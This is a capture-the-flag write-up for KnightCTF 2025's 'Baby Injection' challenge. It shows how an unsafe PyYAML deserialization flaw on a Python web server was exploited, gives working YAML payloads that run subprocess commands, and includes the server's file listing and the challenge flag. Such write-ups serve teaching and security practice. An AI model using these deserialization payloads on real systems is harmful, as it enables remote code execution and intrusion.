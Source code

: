 ```yaml
---
title: "Baby Injection"
description: "Sometimes, seemingly harmless configuration files can do more than they appear. Can you uncover a hidden flaw and turn it to your advantage?"
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-knight/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/knightctf2025#baby-injection)

We are given a webserver which displays some text and has a base64 string at the end:
`http://172.105.121.246:5990/eWFt...`

Decoding that string we see the following:

```
yaml: <text here>
```

This seems to be some sort of YAML injection, so let's look at what the server is running with.

The webserver is running with **Python** according to the headers in the response (no screenshot sorry, it was very clear I promise).

Looking at PayloadAllTheThings there is a section on [PyYAML](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Python.md#pyyaml).

I try a basic payload: `!!python/object/apply:builtins.range [1, 10, 1]`.

The server response is `range(1,10)`, perfect!!

I try an RCE to list the files in the current directory: `yaml: !!python/object/new:subprocess.check_output [['ls', '-la']]`.

The webserver responds with the following (thanks to `abl` for supplying the response post CTF):

```
[{&#39;test&#39;: {b&#34;total 32\ndrwxr-xr-x 1 root root 4096 Jan 21 01:22 .\ndrwxr-xr-x 1 root root 4096 Jan 20 21:15 ..\n-rw-r--r-- 1 root root  500 Jan 20 21:08 Dockerfile\n-rw-r--r-- 1 root root    0 Jan 20 22:56 KCTF{d38787fb0741bd0efdad8ed01f037740}\n-rw-r--r-- 1 root root    0 Jan 20 22:56 Why didn&#39;t they set this as read only\n-rw-r--r-- 1 root root    0 Jan 20 22:56 a\n-rw-r--r-- 1 root root   86 Jan 20 22:43 a.txt\ndrwxr-xr-x 3 root root 4096 Jan 20 21:13 app\n-rw-r--r-- 1 root root    0 Jan 21 00:34 hey.txt\n-rw-r--r-- 1 root root   27 Jan 20 20:59 requirements.txt\n-rwxr-xr-x 1 root root  128 Jan 20 21:15 start.sh\ndrwxr-xr-x 2 root root 4096 Jan 21 01:23 static\n-rw-r--r-- 1 root root    0 Jan 20 22:56 what if someone overwrite the flag??\n-rw-r--r-- 1 root root    0 Jan 20 23:04 zab.txt\n&#34;: None}}]
```

This contains the flag!

Flag: `KCTF{d38787fb0741bd0efdad8ed01f037740}`
